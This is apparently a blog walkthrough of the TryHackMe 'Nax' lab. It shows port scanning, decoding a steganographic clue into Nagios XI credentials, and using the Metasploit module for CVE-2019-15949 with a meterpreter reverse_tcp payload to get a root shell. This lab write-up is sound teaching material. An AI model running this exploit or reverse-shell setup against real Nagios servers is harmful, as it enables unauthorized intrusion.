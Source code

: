 ```yaml
---
published: true
title: Nax - TryHackMe Walkthrough
category: Writeup
image: 'https://imgur.com/pKaNyjo.png'
author: F3dai
---
```

"Identify the critical security flaw in the most powerful and trusted network monitoring software on the market, that allows a user authenticated execute remote code execution."

This is a TryHackMe box. To access this you must sign up to [https://tryhackme.com/](https://tryhackme.com/). 

**URL:** [Nax](https://www.tryhackme.com/room/nax)

**Difficulty:** Medium

**Author:** Stuxnet

## Enumeration

We are given the IP 10.10.37.186. Run an nmap scan with the following command:

<pre>nmap -A -p- -sS -o portscan 10.10.193.76</pre>

Here are the open ports:

<pre>PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 62:1d:d9:88:01:77:0a:52:bb:59:f9:da:c1:a6:e3:cd (RSA)
|   256 af:67:7d:24:e5:95:f4:44:72:d1:0c:39:8d:cc:21:15 (ECDSA)
|_  256 20:28:15:ef:13:c8:9f:b8:a7:0f:50:e6:2f:3b:1e:57 (ED25519)
25/tcp   open  smtp       Postfix smtpd
|_smtp-commands: ubuntu.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-03-23T23:42:04
|_Not valid after:  2030-03-21T23:42:04
|_ssl-date: TLS randomness does not represent time
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=192.168.85.153/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2020-03-24T00:14:58
|_Not valid after:  2030-03-22T00:14:58
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
5667/tcp open  tcpwrapped</pre>

Let's check out port 80 on my browser:

![http](https://imgur.com/GD4ls8k.png)

<pre>		     ,+++77777++=:,                    +=                      ,,++=7++=,,
		    7~?7   +7I77 :,I777  I          77 7+77 7:        ,?777777??~,=+=~I7?,=77 I
		=7I7I~7  ,77: ++:~+777777 7     +77=7 =7I7     ,I777= 77,:~7 +?7, ~7   ~ 777?
		77+7I 777~,,=7~  ,::7=7: 7 77   77: 7 7 +77,7 I777~+777I=   =:,77,77  77 7,777,
		  = 7  ?7 , 7~,~  + 77 ?: :?777 +~77 77? I7777I7I7 777+77   =:, ?7   +7 777?
		      77 ~I == ~77=77777~: I,+77?  7  7:?7? ?7 7 7 77 ~I   7I,,?7 I77~
		       I 7=77~+77+?=:I+~77?     , I 7? 77 7   777~ +7 I+?7  +7~?777,77I
		         =77 77= +7 7777         ,7 7?7:,??7     +7    7   77??+ 7777,
		             =I, I 7+:77?         +7I7?7777 :             :7 7
		                7I7I?77 ~         +7:77,     ~         +7,::7   7
		               ,7~77?7? ?:         7+:77           77 :7777=
		                ?77 +I7+,7         7~  7,+7  ,?       ?7?~?777:
		                   I777=7777 ~     77 :  77 =7+,    I77  777
		                     +      ~?     , + 7    ,, ~I,  = ? ,
		                                    77:I+
		                                    ,7
		                                     :777
		                                        :
						Welcome to elements.
					Ag - Hg - Ta - Sb - Po - Pd - Hg - Pt - Lr</pre>
                    
We are given some elements and a diagram of characters. At this point, I'd like to believe there is a hidden message and the elements are used as some sort of key.

Let's convert the elements to their corresponding numbers and continue from there.

![periodic table](https://imgur.com/GiMzzd8.png)

<pre>Ag - Hg - Ta - Sb - Po - Pd - Hg - Pt - Lr
47 - 80 - 73 - 51 - 84 - 46 - 80 - 78 - 103</pre>

This looks like a string of ASCII characters, let's convert this to text. I used the following tool:

[ASCII to Text](http://www.unit-conversion.info/texttools/ascii/)

Make sure the numbers are in the right format - 3 digit codes:

<pre>047 080 073 051 084 046 080 078 103
= /PI3T.***</pre>

I check to see if this is a path on the web directory:

![Image](https://imgur.com/VWrjWuP.png)

We get an image, let's download and inspect it. I try a few commands to see if there is any steganography involved. Some possible tools for inspecting steganography are:

Strings
Steghide
Exiftool
Stegsolve
Exiv2
Binwalk
Zsteg
Foremost

And there are plenty more depending on the challenge you are facing. Since the first question of the TryHackMe challenge is "What hidden file did you find?", I will try and see if there are any hidden files in this image.

Running exiftools revealed a lot of metadata about the image such as the creator, but I had some trouble finding anything so I resorted to using online tools.

Please refer to this website for linux tools and stego web tools:

[Stego Tools](https://0xrick.github.io/lists/stego/)

I finally found a result with this website:

[https://www.bertnase.de/npiet/npiet-execute.php](https://www.bertnase.de/npiet/npiet-execute.php)

<pre>nagios*****%n3****************dY</pre>

This can be interpreted as a username and password.

Nagios is a software for "IT Infrastructure Monitoring". Website can be found here:

[https://www.nagios.com/](https://www.nagios.com/)

The directory path should be /nagios.

![/nagios](https://imgur.com/6wTrDNP.png)

The username and password don't work, let's try and use this elsewhere. No other port would work so I did some more research to nagios. Turns out, this is the URL:

<pre>http://10.10.193.76/nagiosxi/</pre>

![nagios login](https://imgur.com/G9QRayR.png)

I tried the credentials we found earlier with some luck. Please note, treat the % sign from the username and password we found earlier as a separator.

![logged in](https://imgur.com/PM4WiDk.png)

## User and Root

We can find the version of Nagios at the bottom of the page:

![Version number](https://imgur.com/B3HkRy9.png)

<pre>Nagios XI 5.5.6</pre>

I found this exploit:

[Exploit DB 48191](https://www.exploit-db.com/exploits/48191)

This is a metasploit module that uses Authenticated Remote Command Execution. I used the following command to find where the CVE module is located:

<pre>search 2019-15949</pre>

Select this module and show the options:

<pre>use exploit/linux/http/nagios_xi_authenticated_rce
options</pre>

![msf](https://imgur.com/8lYpG7m.png)

<pre>   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:&lt;path&gt;'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to NagiosXI
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   nagiosadmin      yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port</pre>
   
   
Great, let's fill the option out. We know all of the required options.

<pre>set PASSWORD [password from earlier]
set RHOSTS [target IP]
set LHOST [TryHackMe IP] (Make sure you use the TryHackMe IP, usually on interface tun0 or similar</pre>

![options](https://imgur.com/ejSGcLy.png)

We got a shell, I like to work in shell instead of meterpreter so I executed the following commands:

<pre>shell
python -c 'import pty; pty.spawn("/bin/bash")'
id</pre>

So we are already as /root. Great, let's locate user.txt and root.txt.

I found user.txt in a user's home directory called "galand"

![user.txt](https://imgur.com/Z1G7pL3.png)

And since we are already root, we can check out the root.txt file in /root:

![root.txt](https://imgur.com/MdIXQmp.png)

This was a relatively easy box, I like boxes which have steganography because it's quite fun but our exploitation already escalated our privileges.